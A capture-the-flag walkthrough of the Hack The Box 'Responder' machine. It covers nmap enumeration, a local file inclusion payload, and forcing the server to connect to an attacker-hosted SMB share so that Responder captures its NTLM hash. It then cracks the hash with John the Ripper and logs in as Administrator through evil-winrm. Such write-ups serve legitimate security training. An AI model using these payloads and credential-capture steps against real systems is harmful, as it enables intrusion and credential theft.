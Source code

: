 ![Responder Header](images/header.png)

# Introduction

As part of the learning path for beginners, **Hack The Box** offers a series of machines under the Starting Point **Tier 1** category. These are designed to help new users get familiar with the fundamentals of penetration testing in a guided and progressive way. Among them, **Responder** stands out as the first machine that introduces a slightly more complex challenge. Despite its **Very Easy** difficulty rating, solving it requires chaining together a few steps — making it more structured than previous boxes in the path. It's a great opportunity for newcomers to practice building simple attack chains and start developing a more methodical mindset when approaching machines.

# Information Gathering

## Nmap

The first step was to identify open ports and services running on the target. I started with a full `TCP SYN` scan across all **65,535** ports.

```
sudo nmap -sS -p- -T5 10.129.197.98 

PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
```

This revealed two open ports:

- Port 80/tcp – `HTTP`
- Port 5985/tcp – `WSMan (Windows Remote Management)`

Next, I ran a more detailed service and version detection scan on these ports using the default **Nmap** scripts.

```
sudo nmap -sS -sC -sV -p 80,5985 -T5 10.129.197.98
```

### Port 80 – HTTP

```
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

The web server is running `Apache 2.4.52` on a Windows platform, along with `PHP 8.1.1`. The response headers and the use of the `(Win64)` build clearly suggest that the underlying operating system is **Windows**.

### Port 5985 – WSMan (WinRM)

```
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

This port is associated with `Windows Remote Management (WinRM)` and confirms that the target is running `Microsoft HTTPAPI 2.0`, further verifying the **Windows** environment.

### Web Technologies

To enumerate the technologies used by the web server, I utilized **Wappalyzer**, which confirmed the same information gathered with **Nmap**. This reinforced the initial findings and helped validate the target’s technology stack.

![Web Technologies](images/web-technologies.png)

## Web Enumeration

After identifying that the web server was running `Apache` on Windows at port `80`, I started by browsing the site manually. While there were no useful results from directory brute-forcing with tools like **gobuster**, one particular feature on the homepage caught my attention: **a language selection menu**. 

![Language Selection](images/language-selection.png)

Inspecting the URL when changing the language revealed the following pattern:

```
http://unika.htb/index.php?page=german.html
```

This indicated that the page content was likely being dynamically included based on the `page` parameter — a potential sign of **Local File Inclusion (LFI)**. To test for **LFI**, I modified the `page` parameter to attempt accessing a local system file.

```
http://unika.htb/index.php?page=../../../../../../../windows/win.ini
```

![LFI Success.png](images/lfi-success.png)

The file was successfully included and displayed in the browser, confirming the presence of an **LFI** vulnerability. At this point, I knew that the server was vulnerable to arbitrary file inclusion, and I began exploring ways to leverage this vulnerability to move further into the system.

## Deeper Investigation and NTLM Hash Capture via SMB

After confirming the LFI vulnerability, I initially tried to escalate it to a **Remote File Inclusion (RFI)** attack by hosting a malicious web shell via a Python HTTP server, hoping to include it remotely through the vulnerable `page` parameter. Unfortunately, this approach did not work, as the server was not configured to allow **RFI**.

While digging deeper, I discovered an important detail about how PHP’s `include()` function behaves on Windows systems when given a **UNC path** (a network share path like `\\10.10.14.249\fakeshare`). When PHP on a Windows system attempts to include a remote file via a UNC path (e.g., `\\10.10.14.249\fakeshare`), the server tries to authenticate to that remote **SMB** share using **NTLM** authentication.

This behavior can be abused to capture authentication hashes by setting up a malicious **SMB** server on the attacker’s machine. The target server will automatically send its credentials when attempting to access the share, allowing an attacker to capture NTLM hashes.

To exploit this, I launched **Responder** on my machine to listen and capture **NTLM** hashes over **SMB**.

```
sudo responder -I tun0 -d -w
```

Then, I crafted the URL in the vulnerable web parameter to force the server to connect to my machine’s non-existent SMB share.  

```
http://unika.htb/index.php?page=//10.10.14.249/fakeshare
```

As a result, the target machine tried to access the fake SMB share hosted by `Responder`, sending its NTLM authentication hash, which I successfully captured. Among these hashes was the hash for the `Administrator` user.

![Admin Hash.png](images/hash.png)

## Cracking the Captured NTLM Hash

After capturing the NTLM hash of the Administrator account with **Responder**, I saved it into a file named `hash.txt`. The next step was to crack the hash offline to obtain the cleartext password. I used **John the Ripper** setting the `netntlmv2` format options and the popular `rockyou.txt` wordlist.

```
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2025-05-29 11:31) 33.33g/s 136533p/s 136533c/s 136533C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

The cracking process was very fast, and **John** successfully recovered the password. With the `Administrator` password in hand, I was now ready to proceed with privileged access to the target machine.

## Accessing the Machine and Retrieving the Flag

With the cracked credentials in hand, I used **evil-winrm** to log into the target machine via the `WinRM` service running on port `5985`.

```
evil-winrm -u administrator -p 'badminton' -i 10.129.197.98
```

![Logged In.png](images/logged-in.png)

Once inside, I used **PowerShell** to search recursively for the flag file.

```
Get-Childitem -Path c:\ -Recurse -Filter "flag*"

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

I navigated to the directory to verify and access the file.

```
cd ../../mike/Desktop
ls

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

Finally, I opened the `flag.txt` file to capture the flag and complete the challenge.

## Conclusion

For this walkthrough, I chose to take a different approach than the official Hack The Box methodology. HTB breaks down the **Responder** challenge into eleven guided tasks, leading the user step-by-step with specific questions towards the flag. Instead, I decided to follow a more **black-box** methodology, approaching the machine as a real-world engagement — without hints or a strict path laid out. 

This meant relying on careful enumeration, logical reasoning, and chaining vulnerabilities based on the information uncovered during the whole process. I believe this approach provides a deeper learning experience, helping to develop the skills needed to tackle similar challenges in less guided, more realistic scenarios.

If you’re new to penetration testing, I recommend starting by following the guided HTB path. Then, after some time, come back and try to solve it again on your own to truly sharpen and test your skills.
